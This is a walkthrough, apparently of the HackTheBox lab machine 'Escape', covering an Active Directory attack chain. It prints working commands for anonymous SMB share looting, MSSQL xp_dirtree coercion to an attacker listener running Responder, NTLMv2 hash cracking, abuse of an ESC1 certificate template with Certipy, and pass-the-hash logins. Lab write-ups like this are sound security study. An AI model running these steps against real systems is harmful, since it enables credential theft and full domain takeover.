




# Escape

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows</span>
<span class="wu-badge wu-diff wu-diff--medium">Medium</span>
<span class="wu-tags">
<span class="wu-tag">MSSQL coercion</span>
<span class="wu-tag">NTLMv2 crack</span>
<span class="wu-tag">ADCS ESC1</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Escape is an Active Directory box built around two classic misconfigurations. First, a MSSQL service account can be coerced into authenticating to an attacker-controlled host, leaking an NTLMv2 hash that cracks to a foothold. Then a certificate template is vulnerable to ESC1, which lets any authenticated user request a certificate as the domain administrator and turn it into a usable hash.

## Attack path

1. Find default credentials in a PDF on an anonymous SMB share and use them to reach MSSQL.
2. Coerce the SQL service account to authenticate to Responder with `xp_dirtree`, crack the NTLMv2 hash, then pivot again via credentials left in a log file.
3. Abuse an ESC1-vulnerable certificate template with Certipy to obtain the Administrator hash and log in.

**Tools:** smbclient, impacket-mssqlclient, Responder, John the Ripper, Certify, Certipy, evil-winrm.

## Enumeration

Set the target and scan:

```bash
IP=10.10.11.202

ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
sudo nmap -p$ports -sC -sV $IP -oG scan_tcp
```

### Nmap results

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-16 23:11:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb)
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows
```

The SSL certificate names give away the hostnames, so add them to `/etc/hosts`:

```bash
echo "10.10.11.202 sequel.htb dc.sequel.htb" | sudo tee -a /etc/hosts
```

The interesting parts: a domain controller (`sequel.htb`), MSSQL on 1433, and certificate services hinted at by the AD CA output.

### SMB

List shares anonymously, then open the readable `public` share:

```bash
smbclient -L $IP
smbclient \\\\sequel.htb\\public
get "SQL Server Procedures.pdf"
```

<figure class="wu-evidence" markdown>

<figcaption>The anonymous <code>public</code> share exposes the SQL Server procedures document that contains the first credential pair.</figcaption>
</figure>

The PDF holds a set of default credentials for new hires, on the last page under a *Bonus* header.

??? success "Default credentials from the PDF"
    `PublicUser:GuestUserCantWrite1`

Use them to authenticate to MSSQL:

```bash
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```

## Foothold

There is nothing useful sitting in the databases, so instead coerce the SQL service account into authenticating to us. Start Responder on the VPN interface:

```bash
sudo responder -I tun0 -v
```

From the MSSQL shell, use `xp_dirtree` to make SQL Server reach out to a UNC path on our host, which leaks the service account's NTLMv2 hash:

```sql
EXEC MASTER.sys.xp_dirtree '\\10.10.14.9\test', 1, 1
```

<figure class="wu-evidence" markdown>

<figcaption><code>xp_dirtree</code> coerces the SQL service into authenticating to the attacker-controlled listener, exposing a crackable NTLMv2 response.</figcaption>
</figure>

Responder captures the `sql_svc` NTLMv2 hash. Save it to a file and crack it with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

??? success "Cracked sql_svc password"
    `REGGIE1234ronnie`

Log in over WinRM as the service account:

```bash
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```

This user cannot reach other home directories, but a leftover SQL error log is readable and contains a mistyped password that turns out to belong to another user:

```bash
type C:\sqlserver\logs\errorlog.bak
```

??? success "Credentials from the error log"
    `Ryan.Cooper:NuclearMosquito3`

```bash
evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3
```

Ryan.Cooper's Desktop holds the user flag.

## Privilege escalation

The initial scan showed heavy CA activity, which means the host is running Active Directory Certificate Services. Upload Certify and enumerate for vulnerable templates:

```powershell
upload Certify.exe
.\Certify.exe cas
.\Certify.exe find /vulnerable
```

Certify flags a template where `Authenticated Users` can enroll and the `msPKI-Certificate-Name-Flag` contains `ENROLLEE_SUPPLIES_SUBJECT`. That is the [ESC1](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) condition: any enrollee can request a certificate with an arbitrary Subject Alternative Name, so we can request one as the domain administrator.

<figure class="wu-evidence" markdown>

<figcaption>Certify surfaces the vulnerable <code>UserAuthentication</code> template and its issuing certificate authority.</figcaption>
</figure>

Request the certificate with Certipy, specifying the administrator UPN:

```bash
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```

<figure class="wu-evidence" markdown>

<figcaption>The ESC1 request succeeds and returns a certificate for the Administrator UPN, ready to exchange for Kerberos authentication.</figcaption>
</figure>

Kerberos is time-sensitive, so sync the clock before authenticating with the certificate:

```bash
sudo ntpdate -u dc.sequel.htb
certipy auth -pfx administrator.pfx
```

Certipy exchanges the certificate for a TGT and extracts the NT hash:

??? success "Administrator NT hash"
    ```
    aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
    ```

Pass the hash to log in as Administrator and grab the root flag:

```bash
evil-winrm -i sequel.htb -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
